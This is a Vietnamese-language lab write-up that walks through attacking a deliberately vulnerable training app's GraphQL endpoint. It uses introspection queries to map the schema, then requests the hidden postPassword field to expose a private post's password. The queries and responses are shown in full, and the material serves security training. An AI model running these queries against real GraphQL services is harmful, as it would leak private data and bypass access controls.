









# Writeup LAB Accessing private GraphQL posts

## Goal
Trích xuất password trong bài viết ẩn 
## Khai thác
Trang chủ

Chúng ta cùng bắt đầu kiểm tra xem `enpoint` của ứng dụng ở lịch sử HTTP Burp chúng ta có thể thấy có endpoint `/graphql/v1`


Về cơ bản chức năng này chuẩn bi truy vấn GraphQL tên truy vấn và chỉ trả về các kết quả `getBlogSummaries`, `getAllBlogPosts`, `image`, `title`, `summary`, `id` <br>
> Introspection là một chức năng tích hợp sẵn của GraphQL cho phép bạn truy vấn máy chủ để lấy thông tin về lược đồ. Nó thường được sử dụng bởi các ứng dụng như IDE GraphQL và các công cụ tạo tài liệu. <br>
> Tương tự như các truy vấn thông thường, bạn có thể chỉ định các trường và cấu trúc của phản hồi mà bạn muốn nhận được. Ví dụ, bạn có thể muốn phản hồi chỉ chứa tên của các mutation khả dụng. <br>
Bằng cách này chúng ta có thể sử dụng truy vấn thăm dò nội quan sau: 
```json
query {__schema{queryType{name}}}
```
Và lúc này nhận được thông báo lỗi thiếu trường `name: 'getBlogSummaries'`

Quay lại tải trọng và thêm như sau:
```json
query getBlogSummaries {
    __schema{
    	queryType{
        		name
        }
    }
}
```

Như bạn đã thấy máy chủ web trả về chúng ta đối tượng JSON sau:
```json
{
  "data": {
    "__schema": {
      "queryType": {
        "name": "query"
      }
    }
  }
}
```
Tuy nhiên, tính năng tự phân tích nội tâm vẫn được tích hợp trong ứng dụng web! <br>
Giờ đây, chúng ta có thể sử dụng truy vấn nội quan đầy đủ sau đây để liệt kê toàn bộ lược đồ GraphQL: <br>
Chúng ta có thể thấy đã truy vấn nội suy toàn bộ kiểu dữ liệu trong ứng dụng web

Bây giờ tiến hành coppy toàn bộ response trả về và bỏ qua công cụ <a href="http://nathanrandal.com/graphql-visualizer/">graphql-visualizer</a> để xem mô hình ứng dụng 


Lúc này chúng ta đã thấy được các trường của ứng dụng 
```json
type BlogPost {
    id: ID!
    image: String!
    title: String!
    author: String!
    date: Timestamp!
    summary: String!
    paragraphs: [String!]! 
    isPrivate: Boolean!
    postPassword: String
}
```
Sau khi đã biết các trường dữ liệu tiến hành gửi truy vấn
```json

query getBlogSummaries {
    getAllBlogPosts {
        image
        title
        summary
        id
        isPrivate
        postPassword
        author
    }
}
```
Response:
```json

{
  "data": {
    "getAllBlogPosts": [
      {
        "image": "/image/blog/posts/37.jpg",
        "title": "Importance of Relaxing",
        "summary": "Sometimes it's impossible to take a breath in this world. When you're not working your fingers to the bone to support your family, economy and possible habits, you're faced with the blood boiling, warped reality of social media and the...",
        "id": 1,
        "isPrivate": false,
        "postPassword": null,
        "author": "Carrie Onanon"
      },
      {
        "image": "/image/blog/posts/13.jpg",
        "title": "Lies, Lies & More Lies",
        "summary": "I remember the first time I told a lie. That's not to say I didn't do it before then, I just don't remember. I was nine years old and at my third school already. Fitting into already established friendship groups...",
        "id": 4,
        "isPrivate": false,
        "postPassword": null,
        "author": "Phil MaChartin"
      },
      {
        "image": "/image/blog/posts/66.jpg",
        "title": "Machine Parenting",
        "summary": "It has finally happened. The progression from using TV's and tablets as a babysitter for your kids has evolved. Meet the droids, the 21st Century Machine Parenting bots who look just like mom and dad.",
        "id": 2,
        "isPrivate": false,
        "postPassword": null,
        "author": "Aileen Slightly"
      },
      {
        "image": "/image/blog/posts/40.jpg",
        "title": "The Cool Parent",
        "summary": "Trying to be the cool parent was never going to be easy. How could I be a cool grown up when I wasn't even a cool kid? With only sons, I thought it would be easy, especially the older they...",
        "id": 5,
        "isPrivate": false,
        "postPassword": null,
        "author": "Zach Ache"
      }
    ]
  }
}
```
Lúc này chúng ta có thể thấy nhận ra trường `id: 3` được ẩn tiến hành gửi truy vấn và truy xuất password ẩn 

Nộp password hoàn thành LAB
